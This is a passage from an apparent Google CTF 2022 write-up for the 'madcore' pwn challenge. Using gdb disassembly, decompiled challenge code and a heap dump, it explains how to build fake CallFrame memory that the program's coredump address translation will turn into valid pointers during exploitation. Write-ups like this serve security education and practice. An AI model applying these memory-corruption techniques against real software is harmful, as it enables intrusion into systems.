 ```bash
=> 0x7f412553cd99:	vpcmpeqb ymm1,ymm0,YMMWORD PTR [rdi]
   0x7f412553cd9d:	vpmovmskb eax,ymm1
   0x7f412553cda1:	test   eax,eax
   0x7f412553cda3:	je     0x7f412553ce00
   0x7f412553cda5:	tzcnt  eax,eax
   0x7f412553cda9:	vzeroupper 
   0x7f412553cdac:	ret    
   0x7f412553cdad:	nop    DWORD PTR [rax]
   0x7f412553cdb0:	tzcnt  eax,eax
   0x7f412553cdb4:	sub    edi,edx
```

The failing instruction is inside `sprintf()` call.
It comes out the value under `RDI` register is the value from next fake `CallFrame` after `vpointer` plus `0x10` (offset at which the `Binary::fileName` should be).

**Conclusion:** Memory layout we want to prepare needs to contain only valid addresses at offsets representing `CallFrame::binaryAddr` - **but... how to do that without leaks?**
Here, the functionality of `madcore` comes to the rescue:

```cpp
if (binaryPtr != (Binary *)0x0) {
  mappedRegisterSet.GetRAX();
  core = binaryPtr->GetCore();
  raxPtr = mappedRegisterSet.GetRAX();
  rax = *raxPtr;
  vaddr = binaryPtr->GetVirtualAddress();
  mappedRegisterSet.GetRAX();
  *raxPtr = core + (rax - vaddr);
  mappedRegisterSet.GetRAX();
  vaddr = binaryPtr->GetVirtualAddress();
}
```

this code basically translates address from _coredump_ to address of chunk allocated for _coredump_ buffer during `madcore` program execution, meaning that the program will
make the address valid for us. This is what we have to do now:
1. Clean the memory to have `0x00` at offsets corresponding to `CallFrame::binaryAddr`
The code that can help with finding them is:
```cpp
*(index * 8 + buffer) = *memoryPtr;
memoryPtr = memoryPtr + 3; // here it's memoryPtr + 0x18 but memoryPtr is of type ulong*
index = index + 1;
```
because the offset between next values to zero-out is `0x18 * 0x3 = 0x48`
2. Find register which is placed at the correct offset and set it's value to valid address from _coredump_ perspective that will be then translated to valid address.
In my case it was `R14` which was at offset `0x8` (so `registers[1]`). It was pointing at offset `0x40000`:

```python
0x55c516ae1800:	0x696c2f756e672d78	0x0000000000000121 ===> MappedRegisterSet
0x55c516ae1810:	0x000055c516073ac8	0x00007fe9b008f994
0x55c516ae1820:	0x0000000000000150	0x0000000000000000
0x55c516ae1830:	0x2d34365f3638782f	0x2f006f732e31332e
0x55c516ae1840:	0x0000000000000000	0x782f62696c2f7273
0x55c516ae1850:	0x332e322d6362696c	0x0000000000000000
0x55c516ae1860:	0x7273752f006f732e	0x696c2f756e672d78
0x55c516ae1870:	0x0000000000000000	0x7362696c2f756e67
0x55c516ae1880:	0x0000000000000001	0x00007fe9b00cf010 ===> registers[0] registers[1] <=== R14 with valid address
0x55c516ae1890:	0x0000000000000020	0x00007fe9b00f2020
0x55c516ae18a0:	0x00007fe9b00f2120	0x00007fe9b00b7f50
0x55c516ae18b0:	0x0000000000000146	0x0000000000000008
0x55c516ae18c0:	0x00007fe9b00f1da0	0x0000000000000000
0x55c516ae18d0:	0x0000000000000000	0x00007fe9b00e101b
```

[googlectf]:    https://capturetheflag.withgoogle.com/challenges/pwn-madcore
[madcore_zip]:  https://embe221ed.dev/files/CTFs/GoogleCTF/2022/pwn/madcore/madcore.zip